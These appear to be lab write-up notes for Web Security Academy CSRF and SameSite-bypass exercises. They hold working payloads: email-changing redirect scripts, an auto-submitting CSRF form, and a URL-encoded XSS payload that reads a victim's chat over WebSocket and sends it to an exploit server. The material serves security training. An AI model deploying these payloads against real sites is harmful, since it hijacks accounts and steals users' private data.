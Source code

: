 ## SameSite Lax bypass via method override

**Key:** `SameSite=Lax` by default (send cookie cross site only when in GET method or request resulted from a top-level navigation by the user, such as clicking on a link)

> **Solve:** override the method using "\_method=POST"
> `<script>
> document.location =
    "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>`

## SameSite Strict bypass via client-side redirect

**Key:** `SameSite=Strict` (only requests coming from the same site is permitted) $\to$ find a client-side redirection $\to$ try to navigate to the changing email path

> **Solve:**
> `<script>
    document.location =
    "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=abc123@xyz.com%26submit=1";
</script>`


## SameSite Strict bypass via sibling domain

**Key:** In the live chat when you send a READY message to the server, it will respond with the chat history

> **Solve:**
> 1. Find a sibling domain (https://cms-0aea004b04f7961c80b94e540071009b.web-security-academy.net)
>    $\to$ see that this domain is vulnerable to a XSS attack
> 2. Make a GET request from the sibling domain to the /login endpoint with the URL encoded version of the [payload.html](\payload.html)
> 3. Since the request is made from a sibling domain, the cookie is carried with the request $\to$ enabling to see the user's chat history
> 4. Deliver the script to the victim and wait for responses in the Access Log $\to$ URL decoded it to get the user's password
>    `<script>
    document.location =
    "https://cms-0aea004b04f7961c80b94e540071009b.web-security-academy.net/login?username=%65%79%4a%31%63%32%56%79%49%6a%6f%69%51%30%39%4f%54%6b%56%44%56%45%56%45%49%69%77%69%59%32%39%75%64%47%56%75%64%43%49%36%49%69%30%74%49%45%35%76%64%79%42%6a%61%47%46%30%64%47%6c%75%5a%79%42%33%61%58%52%6f%49%45%68%68%62%43%42%51%62%47%6c%75%5a%53%41%74%4c%53%4a%39%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%0a%20%20%22%77%73%73%3a%2f%2f%30%61%65%61%30%30%34%62%30%34%66%37%39%36%31%63%38%30%62%39%34%65%35%34%30%30%37%31%30%30%39%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%0a%29%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%7d%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%66%65%74%63%68%28%0a%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%37%34%30%30%62%33%30%34%66%34%39%36%34%36%38%30%33%34%34%64%33%32%30%31%34%35%30%30%35%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%0a%20%20%20%20%20%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=123"
</script>`


### CSRF with broken Referer validation
**Key:** the server check CSRF via the Referer header

> **Solve:**
> 1. Change the file value of the exploit server to the url of the victim website
> 2. Add a header to the response specifying to append the original url to the Referer header: Referrer-Policy: unsafe-url
> 3. Deliver the payload 

### LAB: SameSite Lax bypass via cookie refresh
There are no protection against CSRF attack (no CSRF token) and the authentication process refreshes cookie with SameSite Lax. 
If the user is logged in less than 2 minutes, the change email request is made easily.
If the user is logged in longer than 2 minutes, the authentication process is retaken. This would cause the change email request to be interupted. Therefore, to ensure that the change email request is made, we will need to retake the authentication process. 
But notice that, if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction. We can trigger this by using this script:

    <form
        action="https://0aa300ad03ce303c82f01ae300e9001a.web-security-academy.net/my-account/change-email"
        method="post"
    >
        <input required type="hidden" name="email" value="evil@gmail.com" />
    </form>
    <p>click me</p> <!-- prevent popup blocker-->
    <script>
        document.onclick = function () {
            window.open(
            "https://0aa300ad03ce303c82f01ae300e9001a.web-security-academy.net/social-login"
            );
            setTimeout(function () {
            document.forms[0].submit();
            }, 5000);
        };
    </script>
